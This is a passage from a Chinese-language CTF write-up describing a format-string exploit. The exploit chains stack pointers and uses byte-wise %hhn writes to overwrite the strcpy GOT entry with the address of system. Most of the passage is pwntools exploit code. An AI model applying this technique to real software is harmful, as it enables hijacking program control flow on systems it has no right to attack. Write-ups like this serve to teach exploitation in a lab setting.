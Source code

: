 ```python
print('systemaddr='+hex(systemaddr))
```

算好对应三个指针指向的格式化字符串偏移：

```python
# p1:%14$p p2:%50$p p3:%54$p
```

#### 第一遍循环
通过 p1（%14$hhn）改写 p3 的低字节，然后通过 p2 在 p3 指向的栈上写入 strcpy 的 got 表地址

> 别忘了，%14$hhn 对应偏移存的是 p2 的值，但是会向内取，所以是改的 p3 的低字节
>
> 同理，%50$hhn 对应偏移放的是 p3 的值，所以改的是 p3 指向的栈上位置
>

##### 重点
这题因为每利用格式化字符串写入一次就会返回一遍 main 函数再回来， main 函数会在 rbp-0x8 的位置写入选项（int，四个字节），而实际上我们利用的 p1->p2->p3 当中

```python
for i in range(6):
    print("first"+str(i))
    x=5-i
    link.sendlineafter(b'choice:',b'2')
    p3lowbyte=(pointer2+0x20+x)&0xff
    print('p3lowbytes='+hex(p3lowbyte))
    payload=encode2('%'+str(p3lowbyte)+'c%14$hhn')
    link.sendafter(b'encode:',payload)

    link.sendlineafter(b'choice:',b'2')
    gotlowbyte=(strcpy_got>>(x*8))&0xff
    print('gotlowbytes='+hex(gotlowbyte))
    payload=encode2('%'+str(gotlowbyte)+'c%50$hhn')
    link.sendafter(b'encode:',payload)
```

#### 第二遍循环
通过 p2 改写栈上写入 strcpy 的 got 表地址低字节，然后通过 p3 修改 strcpy 的 plt 表

```python
for i in range(6):
    print("second"+str(i))
    link.sendlineafter(b'choice:',b'2')
    # x=5-i
    gotlowbyte=(strcpy_got+i)&0xff
    print('gotlowbytes='+hex(gotlowbyte))
    payload=encode2('%'+str(gotlowbyte)+'c%50$hhn')
    link.sendafter(b'encode:',payload)

    link.sendlineafter(b'choice:',b'2')
    syslowbyte=(systemaddr>>(i*8))&0xff
    print('syslowbytes='+hex(syslowbyte))
    payload=encode2('%'+str(syslowbyte)+'c%54$hhn')
    link.sendafter(b'encode:',payload)
```

